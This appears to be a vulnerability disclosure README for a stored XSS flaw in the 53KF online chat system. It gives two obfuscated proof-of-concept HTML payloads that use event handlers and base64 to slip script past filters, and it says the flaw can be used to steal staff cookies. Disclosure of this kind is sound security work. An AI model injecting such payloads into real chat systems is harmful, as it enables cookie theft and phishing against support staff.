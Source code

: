 ## 53KF_vuln_xss

When using the 53KF online chat system, it is found that the inserted HTML statements can be successfully executed, and the alarm window and JS script can be executed successfully, thus stealing customer service staff cookies or fishing operations.

## description ：

Cross Site Scripting (XSS) vulnerability in 53KF online chat system product, Affecting versions < 2.0.0.2 . The vulnerabilities could be remotely exploited resulting in Cross-Site Scripting (XSS) or information disclosure.

Exploit Title: There is a stored Cross Site Scripting in 53KF

Date: 2020/10/27

Exploit Author: panzhenhua

Vendor Homepage: http://www.53kf.me/

Version: < 2.0.0.2

Tested on: macOS

## POC:

1、<input type=text autofocus onfocus=window[490837..toString(1<<5)](atob('YWxlcnQoMSk='))//

2、<details open ontoggle=window[490837..toString(1<<5)](atob('YWxlcnQoMSk='))>

## verification：
Open 53 online customer service chat window to inject POC

![Image](https://github.com/i900008/panexiang.github.io/blob/gh-pages/2.png)

Close the chat window and open it again. The attack is successful

![Image](https://github.com/i900008/panexiang.github.io/blob/gh-pages/1.png)
